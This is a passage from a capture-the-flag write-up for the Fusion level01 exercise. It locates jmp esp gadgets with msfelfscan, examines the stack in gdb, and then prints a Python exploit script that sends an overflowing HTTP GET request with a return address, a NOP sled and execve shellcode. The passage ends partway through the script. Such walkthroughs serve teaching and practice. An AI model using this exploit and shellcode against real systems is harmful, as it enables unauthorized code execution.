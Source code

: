 I immediately thought this was going to be the end of the challenge, since I could just 'jmp esi'.  However, when looking for that opcode, I couldn't find it: 

```
fusion@fusion:/opt/metasploit-framework$ ./msfelfscan -j esi /opt/fusion/bin/level01
[/opt/fusion/bin/level01]
```

Trying to find another way, I looked at the stack pointer, with a little extra surrounding it to see what's on each side: 

```
(gdb)  x/16x $esp-16
0xbfa65d80:     0x41414141      0x41414141      0x41414141      0xdeadbeef
0xbfa65d90:     0xbfa65d00      0x00000020      0x00000004      0x00000000
0xbfa65da0:     0x001761e4      0xbfa65e30      0x20544547      0x41414141
0xbfa65db0:     0x41414141      0x41414141      0x41414141      0x41414141
```

So if our stack pointer is at 0xbfa65d90, the byte right after our return (0xdeadbeef), then we could return to the esp, and then redirect to the esi!  Let's test this by changing the return address to a 'jmp esp', and making the next byte a debug opcode to halt the program. 

Luckily this time we have a valid address for our register: 

```
fusion@fusion:/opt/metasploit-framework$ ./msfelfscan -j esp /opt/fusion/bin/level01
[/opt/fusion/bin/level01]
0x08049f4f jmp esp
```

So now our code looks like this: 

```
# Fusion Level 01
# http://exploit-exercises.com/fusion/level01
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from sys import exit
from struct import pack
from optparse import OptionParser
from socket import *

def exploit(hostname, port):
        junk = "A"*139
        ret = pack("<I", 0x08049f4f)
        esi = "\xCC"
        nops = "\x90"*100
        shellcode = ("\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x13\x00\x00\x00\x74"
"\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x6c\x65\x76\x65\x6c"
"\x30\x31\x00\x57\x53\x89\xe1\xcd\x80")

        s = socket(AF_INET, SOCK_STREAM)
        try:
                print "[*] Connecting to %s on port %s" % (hostname, port)
                s.connect((hostname, port))
        except:
                print "[*] Connection error"
                exit(1)

        s.send("GET " + junk + ret + esi + " HTTP/1.1" + nops + shellcode)


if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1",
```